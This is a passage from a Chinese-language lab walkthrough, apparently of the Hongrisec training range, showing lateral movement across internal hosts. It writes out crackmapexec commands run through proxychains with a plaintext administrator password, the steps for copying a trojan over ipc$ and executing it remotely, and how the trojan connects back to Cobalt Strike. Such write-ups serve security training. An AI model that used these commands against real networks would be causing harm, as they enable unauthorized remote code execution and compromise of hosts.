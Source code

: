 ![截图](79b6d124ba5ffe52605841942cdfafff.png)

这里我们发现有三台主机都可以用这个密码上线。当然，这里我们也可以利用`crackmapexec`来执行命令看看：

```shell
proxychains -q crackmapexec smb 192.168.52.138 -u administrator -p Hongrisec@2019 -x "whoami"
```

![截图](fdee8f7bf77044085be74dce63f433cd.png)

这里我们将利用两种方法来进行上线：

**利用crackmapexec、ipc进行上线**

我们可以直接利用`crackmapexec`执行命令将木马上传到141这个主机上。

首先，建立一个转发木马上线：

![截图](3ab256441c530dfabe5743cfecc3476f.png)

然后我们需要创建一个32位的木马（因为41主机只能运行32位）：

![截图](5a5a55d9ba4d344b5bb2604138a80b82.png)

然后我们将木马上传到143（web服务器）的c盘中：

![截图](4f89a73ed462e524ee3dd51c081843b0.png)

然后，我们利用ipc$将木马复制过去：

```shell
shell net use \\192.168.52.141\ipc$ "Hongrisec@2019" /user:administrator
shell copy 4444.exe \\192.168.52.141\c$
```

然后，进一步的我们利用`crackmapexec`来执行木马：

```shell
proxychains -q crackmapexec smb 192.168.52.141 -u administrator -p Hongrisec@2019 -x "c:\4444.exe"
```

这时候，我们可以发现cs中已经上线了：

![截图](12d6b4e2ed3a020dbbe23022f090c307.png)

**直接利用cs上线**

这里我们利用cs来进行测试，首先我们建立一个smb的监听器：

![截图](6df07bb4bec76b53d1aed2667f048c0a.png)

然后我们利用密钥来进行尝试登录：

![截图](02ddc202a65a2f1912f79b191e553e2d.png)

![截图](fa87256bec6ed4895360457f10ffef4f.png)

此时，就会发现上线了！！！
